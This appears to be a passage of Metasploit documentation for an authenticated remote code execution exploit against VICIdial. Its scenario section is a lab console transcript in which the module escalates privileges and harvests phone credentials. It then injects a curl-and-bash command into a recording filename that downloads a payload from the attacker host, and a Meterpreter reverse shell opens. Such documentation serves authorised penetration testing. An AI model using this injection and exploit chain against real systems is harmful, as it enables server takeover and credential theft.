 1. Do: `run`
1. The module will exploit the Remote Code Execution

## Options

## Scenarios

### ViciBox 11.0.1

Using `cmd/linux/http/x64/meterpreter_reverse_tcp`:

```
msf6 exploit(unix/webapp/vicidial_agent_authenticated_rce) > run http://192.168.1.28 username=6666 password=password
[*] Exploit running as background job 12.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/vicidial_agent_authenticated_rce) > 
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] VICIdial version: 2.14-705
[+] The target is vulnerable.
[*] Using URL: http://192.168.1.36:5000/piAF2DipO
[*] Server started.
[*] Payload is ready at /
[+] Authenticated successfully as user '6666'
[+] Updated user settings to increase privileges
[+] Updated system settings
[+] Created dummy campaign 'Haley-Huel'
[+] Updated dummy campaign settings
[+] Created dummy list 'Haley-Huel List' for campaign '898934'
[+] Found phone credentials: Extension=callin, Password=test, Recording Extension=8309
[+] Retrieved dynamic field names: MGR_login20240926, MGR_pass20240926
[+] Entered "manager" credentials to override shift enforcement
[+] Authenticated as agent using phone credentials
[+] Session Name: 1727385175_8300defaul11764031, Session ID: 8600051
[*] Generated malicious command: $(curl$IFS-k$IFS@192.168.1.36:5000$IFS-o$IFS.Vysha&&bash$IFS.Vysha)
[*] MonitorConf command sent for Channel Local/8309@default on 192.168.1.28
Filename: $(curl$IFS-k$IFS@192.168.1.36:5000$IFS-o$IFS.Vysha&&bash$IFS.Vysha)
RecorDing_ID: 10
 RECORDING WILL LAST UP TO 60 MINUTES

[+] Stopped malicious recording to prevent file size from growing
[*] Deleting dummy campaign with ID: 898934
[+] Campaign 898934 deleted successfully.
[*] Waiting for 300 seconds to allow the cron job to execute the payload...
[*] Received request at: / - Client Address: 192.168.1.28
[*] Sending response to 192.168.1.28 for /
[*] Sending stage (3045380 bytes) to 192.168.1.28
[*] Meterpreter session 18 opened (192.168.1.36:4444 -> 192.168.1.28:26572) at 2024-09-27 01:14:12 +0200

msf6 exploit(unix/webapp/vicidial_agent_authenticated_rce) > sessions 18
[*] Starting interaction with 18...

meterpreter > pwd
/var/spool/asterisk/monitor
meterpreter > ls
No entries exist in /var/spool/asterisk/monitor
meterpreter > ls /root/
Listing: /root/
===============

```